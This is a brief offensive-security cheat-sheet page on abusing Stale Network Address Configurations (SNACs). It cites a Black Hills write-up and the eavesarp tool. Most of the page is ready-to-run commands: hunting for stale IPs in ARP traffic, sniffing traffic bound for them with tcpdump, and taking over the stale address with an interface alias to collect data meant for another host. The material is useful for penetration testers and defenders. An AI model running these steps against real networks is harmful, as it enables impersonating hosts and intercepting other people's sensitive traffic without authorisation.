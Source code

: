 ```yaml
---
description: Stale Network Address Configuration
---
```


# SNACs Abuse

* [https://www.blackhillsinfosec.com/analyzing-arp-to-discover-exploit-stale-network-address-configurations/](https://www.blackhillsinfosec.com/analyzing-arp-to-discover-exploit-stale-network-address-configurations/)
* [https://github.com/arch4ngel/eavesarp](https://github.com/arch4ngel/eavesarp)

Actively analyze ARP traffic and hunt for SNACs (Stale Network Address Configurations):

```
$ sudo python3 eavesarp.py capture -i eth0 -ar -dr [--blacklist 192.168.1.11]
```

If a SNAC if found (can be detected, for example, when a host has moved from one IP to another and its DNS A record not matching its DNS PTR record anymore) so that some application in the network is still trying to send sensitive data to the *stale* IP address (because it may simply be hard-coded in the app), an adversary can set an alias for their interface pretending to be that host with the *stale* IP and collect all the traffic intended for it:

```
  # Check again with tcpdump
$ sudo tcpdump -nvv -i eth0 "src host <STALE_IP> and arp"

  # Abuse it!
$ sudo tcpdump -nA -i eth0 "src host <STALE_IP> and (dst port 80 or dst port 443)"
Or
$ sudo tcpdump -nvv -i eth0 -s 65535 -w eavesarp.pcap "host <STALE_IP>"
$ sudo ip addr add <STALE_IP>/24 dev eth0

  # Clean up
$ sudo ip addr del <STALE_IP>/24 dev eth0
```
